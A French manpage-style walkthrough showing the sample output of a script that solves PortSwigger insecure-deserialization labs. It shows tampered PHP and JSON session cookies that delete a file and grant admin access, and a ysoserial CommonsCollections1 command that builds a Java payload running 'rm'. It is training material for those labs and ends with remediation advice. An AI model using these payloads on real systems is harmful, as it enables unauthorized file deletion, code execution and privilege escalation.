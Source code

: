 # MANPAGE

Voici un **exemple exhaustif de l’exécution du script** pour les challenges *insecure deserialization* de PortSwigger, couvrant les scénarios PHP, Java, et JSON, et illustrant chaque étape automatisée : détection, décodage, modification, injection, contrôle et validation.

---

## 1. Détection automatique de données sérialisées

```
------------------------------------------------------
[1] Détection de données sérialisées dans les cookies et réponses
- Cookies reçus :
Set-Cookie: session=O:8:"UserData":2:{s:8:"username";s:6:"wiener";s:11:"avatar_link";s:23:"/home/wiener/avatar.jpg";}
- Exemples d'encodage à surveiller :
    * PHP : O: ou a: ou s: ou C: ou b: ou i:
    * Java : rO0A ou ACED0005
    * JSON : {" ou [
- Vérifiez les cookies/session pour des patterns de sérialisation.
  [+] Cookie PHP sérialisé détecté.
```
*Le script détecte automatiquement un objet PHP sérialisé dans le cookie de session, typique des labs PHP PortSwigger[4][5].*

---

## 2. Décodage et modification de l'objet sérialisé

```
------------------------------------------------------
[2] Décodage et modification de l'objet sérialisé
- Objet PHP détecté :
O:8:"UserData":2:{s:8:"username";s:6:"wiener";s:11:"avatar_link";s:23:"/home/wiener/avatar.jpg";}
  [+] Objet modifié :
O:8:"UserData":2:{s:8:"username";s:6:"wiener";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```
*Le script propose une modification automatique du champ `avatar_link` pour cibler un fichier sensible, comme demandé dans de nombreux labs[4][5].*

---

## 3. Injection du payload et attaque

```
------------------------------------------------------
[3] Injection du payload et attaque
- Injection du payload dans le cookie et requête sur /my-account/delete
Your avatar has been deleted.
```
*Le script injecte le cookie modifié dans la requête et affiche la réponse. Ici, la suppression du fichier cible est confirmée par le message retourné, ce qui valide l'exploitation[5][6].*

---

## 4. Contrôle du résultat de l'attaque

```
------------------------------------------------------
[4] Contrôle du résultat de l'attaque
  [+] Effet détecté :
Your avatar has been deleted.
```
*Le script analyse la réponse pour valider que l’action attendue (suppression, accès admin, etc.) a bien eu lieu, comme requis pour la validation du lab[5][6].*

---

## (Scénario Java – exploitation gadget chain)

Supposons que le lab utilise Java (pattern `rO0AB...` dans le cookie) :

```
------------------------------------------------------
[1] Détection de données sérialisées dans les cookies et réponses
- Cookies reçus :
Set-Cookie: session=rO0ABXNyABdjb20uZXhhbXBsZS5Vc2VyRGF0YQ...
- Exemples d'encodage à surveiller :
    * PHP : O: ou a: ou s: ou C: ou b: ou i:
    * Java : rO0A ou ACED0005
    * JSON : {" ou [
- Vérifiez les cookies/session pour des patterns de sérialisation.
  [+] Cookie Java sérialisé détecté.
------------------------------------------------------
[2] Décodage et modification de l'objet sérialisé
- Objet Java détecté. Utilisez ysoserial pour générer un payload.
  Exemple : java -jar ysoserial.jar CommonsCollections1 'rm /home/carlos/morale.txt' | base64
Collez ici le payload Java base64 à injecter : <payload_base64>
------------------------------------------------------
[3] Injection du payload et attaque
<no output, server response>
------------------------------------------------------
[4] Contrôle du résultat de l'attaque
  [+] Effet détecté :
Congratulations, you solved the lab!
```
*Le script guide l’utilisateur pour générer le payload avec ysoserial, puis l’injecte et contrôle la réponse. Si le message de succès apparaît, la faille est exploitée[3].*

---

## (Scénario JSON/base64)

```
------------------------------------------------------
[1] Détection de données sérialisées dans les cookies et réponses
- Cookies reçus :
Set-Cookie: session=eyJ1c2VyIjoid2llbmVyIiwiYWRtaW4iOmZhbHNlfQ==
...
  [+] Cookie JSON/base64 détecté.
------------------------------------------------------
[2] Décodage et modification de l'objet sérialisé
- Objet JSON/base64 détecté :
{"user":"wiener","admin":false}
  [+] Objet modifié et ré-encodé :
eyJ1c2VyIjoid2llbmVyIiwiYWRtaW4iOnRydWV9
------------------------------------------------------
[3] Injection du payload et attaque
Welcome, admin!
------------------------------------------------------
[4] Contrôle du résultat de l'attaque
  [+] Effet détecté :
Welcome, admin!
```
*Le script décode le JSON, modifie le champ `admin` à `true`, ré-encode, injecte et valide l’élévation de privilège.*

---

## 5. Conseils/remédiation

```
------------------------------------------------------
[Remédiation & Conseils]
- Ne désérialisez jamais de données contrôlées par l’utilisateur.
- Utilisez des formats sûrs (JSON, XML) et des bibliothèques à jour.
- Implémentez des contrôles de type/classe lors de la désérialisation.
- Pour PHP, n’utilisez pas unserialize() sur des données non sûres.
- Pour Java, limitez les classes autorisées et utilisez des gadgets connus uniquement pour les tests.
- Documentation PortSwigger : https://portswigger.net/web-security/deserialization
```

---

## 6. Synthèse

```
------------------------------------------------------
[SYNTHÈSE]
1. Détection automatique de données sérialisées.
2. Décodage, modification et génération de payloads adaptés.
3. Injection et contrôle automatisé de l’effet (suppression, admin, RCE, etc.).
4. Application des recommandations de sécurité.
------------------------------------------------------
```

---
